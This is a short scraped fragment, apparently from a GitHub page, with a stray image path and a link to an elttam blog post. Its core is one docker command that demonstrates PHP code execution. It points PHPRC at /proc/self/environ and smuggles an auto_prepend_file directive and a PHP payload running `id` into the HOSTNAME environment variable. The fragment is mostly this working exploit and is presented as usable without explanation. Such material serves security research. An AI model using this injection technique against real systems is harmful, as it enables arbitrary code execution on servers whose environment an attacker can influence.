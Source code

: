 x
-

[see](https://www.elttam.com/blog/env/)
````sh
docker run -e $'HOSTNAME=1;\nauto_prepend_file=/proc/self/environ\n;<?php die(`id`); ?>' \
    -e 'PHPRC=/proc/self/environ' php:7.3 php /dev/null
````
